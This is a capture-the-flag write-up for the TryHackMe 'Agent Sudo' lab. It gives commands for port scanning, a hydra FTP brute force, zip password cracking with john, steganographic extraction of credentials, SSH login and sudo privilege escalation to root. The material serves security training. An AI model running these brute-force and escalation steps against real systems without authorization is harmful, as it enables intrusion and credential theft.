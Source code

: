 # TryHackMe - Agent Sudo Writeup

## Target IP: 
`10.10.120.249`

---

## Phase 1: Reconnaissance

Initial port scanning was performed using `nmap` to identify exposed services on the target:

```bash
nmap -sV -Pn 10.10.120.249
```

**Open Ports Identified:**

- **21** – FTP (vsftpd)
    
- **22** – OpenSSH
    
- **80** – HTTP
    

---

## Phase 2: Enumeration

### Web Enumeration (Port 80):

- Navigating the HTTP service revealed a character referred to as **Agent C**.
    
- Using **Burp Suite**, we modified the `User-Agent` header and confirmed that the username `chris` was associated with FTP access.
    

### FTP Brute-force:

We used `hydra` to brute-force the FTP login for user `chris` using the **rockyou.txt** wordlist:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.120.249
```

Successful credentials were obtained, granting FTP access to the target machine.

---

## Phase 3: Exploitation

### FTP Access:

Login was established using:

```bash
ftp 10.10.120.249
```

Multiple files were downloaded using the `mget` command. One of the files, `cutie.png`, appeared suspicious.

### Metadata & File Analysis:

- **Exiftool** was used to inspect metadata:
    
    ```bash
    exiftool cutie.png
    ```
    
- A warning in the metadata prompted further analysis via a hex dump:
    
    ```bash
    xxd cutie.png | less
    ```
    
- Hidden data was extracted using **binwalk**:
    
    ```bash
    binwalk -e cutie.png
    ```
    
- This revealed a ZIP archive (`8702.zip`) that required a password. We prepared the archive for cracking:
    
    ```bash
    zip2john 8702.zip > hash.txt
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
    ```
    
- Once cracked, the ZIP contained a message that was decoded using **CyberChef**, revealing the string: `Area51`.
    

### Steganography:

Using the password `Area51`, we extracted hidden data from `cute-alien.jpg`:

```bash
steghide extract -sf cute-alien.jpg
```

This yielded credentials for a new user:

- **Username:** james
    
- **Password:** hackerrules!
    

### SSH Access:

SSH login was successful using the above credentials:

```bash
ssh james@10.10.120.249
```

A file of interest, `Alien_autospy.jpg`, was discovered. It was transferred to the local machine:

```bash
scp james@10.10.120.249:Alien_autospy.jpg ~/
```

A reverse image search revealed it to be the infamous **Roswell alien autopsy**, hinting at a potential theme or additional clues.

---

## Phase 4: Privilege Escalation

Running the following command:

```bash
sudo -l
```

Revealed that user `james` could execute `/bin/bash` with root privileges:

```bash
User james may run the following commands on [target]:
    (ALL : ALL) NOPASSWD: /bin/bash
```

This allowed for immediate privilege escalation:

```bash
sudo /bin/bash
```

A root shell was obtained to allow us to get the flag.
